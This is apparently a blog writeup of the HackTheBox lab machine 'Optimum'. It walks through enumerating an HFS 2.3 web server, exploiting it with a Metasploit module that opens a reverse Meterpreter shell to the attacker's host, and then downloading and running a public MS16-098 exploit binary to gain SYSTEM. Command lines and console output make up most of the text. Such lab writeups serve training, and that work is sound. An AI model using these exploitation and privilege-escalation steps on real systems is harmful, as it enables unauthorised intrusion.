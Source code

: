 ```yaml
---
title: HackTheBox - Optimum
categories: writeups
layout: page
date: 2020-07-20 23:21 -0500
---
```

![Optimum](/assets/images/HTBoxes/Optimum/Optimum.png)
## Summary

Optium is a fairly straightforward easy rated Windows box.  It involves simple enumeration and exploitation via a readily available metasploit module for a foothold.  For privilege escalation, it requires enumeration of patch levels of the system to determine a relevant exploit for escalation.

## Walkthrough

### Enumeration

Ran the usual nmap ``nmap -A -T4 -v 10.10.10.8``

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

I went to the website and saw it is running [HTTP File Server software](https://www.rejetto.com/hfs/) v2.3.

![Optimum-website](/assets/images/HTBoxes/Optimum/optimum-website.png)

I did a ``searchsploit hfs`` and found this version seems to be vulnerable.

### Foothold

I loaded up msfconsole via ``msfconsole -q`` and found that there is a RCE metasploit module that we can use to gain a foothold.

```console
msf5 > search hfs

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/git_client_command_exec  2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2
014-9390
   1  exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.2
SRVHOST => 10.10.14.2
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Using URL: http://10.10.14.2:8080/Kzl4K6JceE
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Kzl4K6JceE
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49162) at 2020-07-20 21:32:54 -0500
[!] Tried to delete %TEMP%\ytefKHKvAX.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

### User

I listed the kostas desktop folder and there was a user.txt.  No need to pivot so I grabbed the user.txt sitting in the Desktop folder.

### Root

Now that I had user it was time to enumerate to find a path to admin.  I used the windows exploit suggester [tool]( https://github.com/GDSSecurity/Windows-Exploit-Suggester).

To gather the systeminfo for it I just used the meterpreter session:

```console
meterpreter > execute -f cmd.exe -a "/c systeminfo > systeminfo.txt"
Process 2072 created.
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-07-27 06:31:27 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 06:57:16 -0500  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 05:58:52 -0600  hfs.exe
100666/rw-rw-rw-  3334    fil   2020-07-27 07:16:36 -0500  systeminfo.txt
100444/r--r--r--  32      fil   2017-03-18 07:13:18 -0500  user.txt.txt

meterpreter > download systeminfo.txt
[*] Downloading: systeminfo.txt -> systeminfo.txt
[*] Downloaded 3.26 KiB of 3.26 KiB (100.0%): systeminfo.txt -> systeminfo.txt
[*] download   : systeminfo.txt -> systeminfo.txt
```

To get the script to run, it requires python2 and a library dependency.  I suggest using ``pipenv`` in the cloned folder.

```console
pipenv --python 2.7
pipenv install xlrd
pipenv run python2 ./windows-exploit-suggester.py --database 2020-07-20-mssb.xls --systeminfo systeminfo.txt
```

After executing the script, there's quite a few suggestions.  The one in the official HTB writeup is MS016-032.  However, I had issues trying to get it to work from metasploit.  After some googling I decided to try MS16-098.

``wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe``

Back in my meterpreter session I did a ``upload 41020.exe`` then opened a shell to execute it.

```console
meterpreter > shell
Process 2336 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>.\41020.exe
.\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

After this I simply went to the Desktop directory and grabbed the root.txt flag.

## Lessons Learned

On this box:

* Refreshed metasploit module searching and exploit execution
* Learned about a new python based windows priv esc tool (the suggester tool)
